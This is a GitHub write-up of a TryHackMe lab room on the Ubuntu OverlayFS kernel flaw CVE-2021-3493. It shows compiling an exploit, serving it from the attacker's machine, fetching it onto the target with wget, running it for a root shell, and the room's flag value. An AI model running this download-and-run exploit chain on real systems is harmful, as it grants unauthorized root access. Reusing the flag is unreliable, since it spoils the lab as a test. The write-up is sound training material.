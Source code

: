 <h1 align="center">OverlayFS - CVE-2021-3493</h1>
<p align="center">2025, October 4<br>Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m excited to join you on this adventure, part of my <code>516</code>-day-streak in <a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>Exploit a 2021 Kernel vulnerability in Ubuntu to become root almost instantly!</em><br>
<img width="80px" src="https://github.com/user-attachments/assets/0768833b-b246-46a2-8298-ecbc3354b395"><br>
Access it <a href="https://tryhackme.com/room/overlayfs">here</a>.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/8e37fb43-f9df-42ce-a37f-96b457350897"></p>



<img width="2048" height="2048" alt="image" src="https://github.com/user-attachments/assets/bc57e64f-e76e-4c07-9a3b-d733bf90c391" />



<img width="1896" height="400" alt="image" src="https://github.com/user-attachments/assets/7d95073e-f7e4-4eae-8810-ae20486105d7" />



```bash
https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/
```

```bash
:~# nano exploit.c
```

```bash
:~# gcc exploit.c
```

```bash
:~# gcc -o exploit exploit.c
```

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xx - - [05/Oct/2025 xx:xx:xx] "GET /exploit HTTP/1.1" 200 -
```

```bash
:~# ssh overlay@xx.xxx.xx.xx
...
overlay@overlayfs:~$ wget http://xx.xxx.xx.xx:8000/exploit
...
```

```bash
overlay@overlayfs:~$ chmod 777 exploit
```

```bash
overlay@overlayfs:~$ ./exploit
bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt
thm{27aaa5865a52dcd4cb04c0e0a2d39404}
```


<br>
<br>


<img width="1897" height="890" alt="image" src="https://github.com/user-attachments/assets/dde93eb3-90d8-414d-a34d-f95104d942da" />
